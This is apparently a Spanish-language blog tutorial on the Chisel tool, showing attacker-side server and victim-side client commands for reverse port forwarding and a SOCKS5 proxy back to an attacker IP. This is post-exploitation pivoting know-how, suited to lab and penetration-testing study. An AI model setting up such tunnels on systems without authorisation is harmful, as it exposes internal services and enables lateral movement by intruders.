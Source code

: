 ```yaml
---
layout: single
title: Chisel
excerpt: "Explicación de como utilizar la herramienta chisel para realizar port forwarding."
date: 2021-11-28
classes: wide
header:
  teaser: /assets/images/Tools/bash-icon.png
  teaser_home_page: true
  icon: /assets/images/tool.png
categories:
  - Tools
tags:
  - Port Forwarding
  - CLI

---
```



# Chisel
## Definición
Chisel es una herramienta hubicada en [github](https://github.com/jpillora/chisel), con la que podemos hacer port forwarding.

![overview](https://camo.githubusercontent.com/6209fb99bc6edcb2341900468f78b09f03d0be74e03b48e49beb87c52b55362c/68747470733a2f2f646f63732e676f6f676c652e636f6d2f64726177696e67732f642f317035335657787a474e667938726a722d6d5738707669734a6d686b6f4c6c383276416763744f5f366631772f7075623f773d39363026683d373230)

## Port Forwarding
### Uso

  * <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port \<puerto para chisel\>
  * <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client \<ip del atacante\>:\<puerto para chisel\> R:\<puerto del servicio en maquina de atacante\>:\<ip a la que accede la maquina víctima (puede ser el loopback)\>:\<puerto del servicio\>

### Ejemplo

* <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port 1234
* <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client 10.10.14.14:1234 R:8888:127.0.0.1:8888

## Dynamic Port Forwarding (proxy)
Same as -D option in ssh but with chisel

* <span style="color:red">*Atacante:*</span>
    * chisel server --reverse --port 1234 --socks5
* <span style="color:#7cb9e8">*Victima:*</span>
    * chisel client 10.10.14.14:1234 R:socks

And then chisel will start a **SOCK5** proxy in **127.0.0.1:1080**
